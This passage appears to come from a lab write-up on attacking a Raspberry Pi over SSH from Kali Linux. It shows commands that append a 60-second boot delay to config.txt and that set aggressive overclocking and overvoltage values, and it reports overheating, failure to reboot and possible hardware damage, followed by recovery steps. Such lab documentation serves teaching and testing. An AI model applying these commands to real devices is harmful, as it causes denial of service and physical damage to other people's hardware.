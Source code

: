 ### Boot Delay Injection & File Editing

**Executed remotely on the Raspberry Pi target via SSH from Kali Linux:**

**Availability Attack - Boot Delay:**

Append boot delay to configuration on the Raspberry Pi:
```bash
echo "boot_delay=60" | sudo tee -a /path/to/config.txt
```

**System File Modification on Raspberry Pi:**

Edit system files on the target:
```bash
sudo nano /path/to/file.txt
```

**Impact**: These modifications can produce multi-hour boot delays on the Raspberry Pi, demonstrating how attackers can impact system availability through remote configuration file manipulation.

### Overclocking & Hardware Impact

**Executed remotely on the Raspberry Pi target via SSH from Kali Linux:**

**⚠️ DANGEROUS - Lab Testing Only:**

Modify `/boot/config.txt` on the Raspberry Pi with aggressive overclocking settings:
```bash
sudo nano /boot/config.txt
```

Add the following dangerous settings to the Raspberry Pi's configuration:
```
force_turbo=1
over_voltage=8
arm_freq=2400
gpu_freq=850
```

**Results Observed on the Raspberry Pi:**
- Excessive heat generation
- System instability
- Failure to reboot
- Potential hardware damage

**Risk Assessment**: Demonstrates thermal and hardware risks from unsafe configuration changes applied remotely to the target device.

---

## Safety and Recovery Procedures

### Recovery Methods

1. **SD Card Recovery:**
   - Reimage SD card with fresh OS
   - Restore from backup if available
